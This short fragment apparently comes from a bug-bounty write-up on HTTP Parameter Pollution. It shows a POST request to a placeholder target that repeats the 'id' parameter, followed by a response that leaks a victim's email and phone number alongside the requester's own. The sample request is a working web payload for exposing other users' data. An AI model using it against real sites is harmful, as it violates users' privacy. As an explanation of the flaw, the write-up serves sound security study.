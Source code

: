 ```

{

"email":["yourmail@gmail.com"],"phoneNumber":[+91-9999999999]

}
```
HTTP Parameter Pollution Request :
```
POST /details HTTP/1.1
Host: site.target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0

id=100&id=101
```
HTTP Parameter Pollution Response :
```
HTTP/1.1 200 OK
server: nginx
content-type: application/json
cache-control: no-cache, private

{

"email":["yourmail@gmail.com","victim@gmail.com"],"phoneNumber":[+91-9999999999,+91-8888888888]

}
```
#### Refrences: https://shahjerry33.medium.com/parameter-pollution-zero-day-3feb86ee8a02
